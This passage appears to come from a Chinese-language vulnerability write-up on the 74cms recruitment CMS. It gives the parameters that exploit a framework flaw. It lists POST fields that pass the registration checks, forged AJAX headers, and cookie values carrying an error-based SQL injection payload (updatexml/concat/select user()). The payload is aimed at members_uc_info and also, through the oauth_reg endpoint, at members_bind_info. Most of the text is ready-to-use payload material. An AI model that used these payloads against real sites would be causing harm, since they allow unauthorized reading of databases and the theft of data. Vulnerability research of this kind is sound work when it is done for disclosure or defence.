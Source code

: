 ```
这里我要大概讲一下参数的问题
post: 
reg_type=2            // 必须为 2 为了绕过一个注册判断，为 1 的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为 2 为 1 会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为 bind 因为要靠他，获取 cookie(members_uc_info)并且合并为$data 数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:
members_uc_info[reg_type]=1;         // 必须为 1 满足流程需要
members_uc_info[utype]=2;         // 必须为 2 满足流程需要
members_uc_info[mobile][0]=match;    // 框架漏洞利用
members_uc_info[mobile][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a;  // 这里输入注入语句

headers:  // 伪造 ajax 操作
  Content-Type: application/x-www-form-urlencoded
  X-Requested-With: XMLHttpRequest 
```

## 0x07 74cms 独有框架漏洞第四处

```
文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：oauth_reg (
是否需登录：需要
登录权限：普通用户/企业用户都可
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a; 
```

![image](img/5bb94ad3baf768053eee17ec0e7544e2.png)
